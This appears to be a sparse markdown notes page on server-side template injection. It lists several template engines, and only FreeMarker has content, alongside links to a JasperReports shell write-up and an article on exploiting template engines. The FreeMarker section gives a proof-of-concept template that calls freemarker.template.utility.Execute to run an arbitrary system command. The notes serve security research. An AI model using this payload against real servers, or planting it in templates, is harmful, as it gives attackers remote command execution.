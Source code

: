 # Type
## `FreeMarker`
Templete - upload - insert data - render
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```
 
 ## `Thymleaf`
 
 ## `Mustache`
 
 ## `Groovy`
 
 ## `xx`
 
 
## Reports
- [Hacking JasperReports](https://foxglovesecurity.com/2016/10/14/hacking-jasperreports-the-hidden-shell-feature/)

## CVE Analysis

## Reference
- [Exploiting 用户自定义模版引擎](https://www.secpulse.com/archives/73381.html)
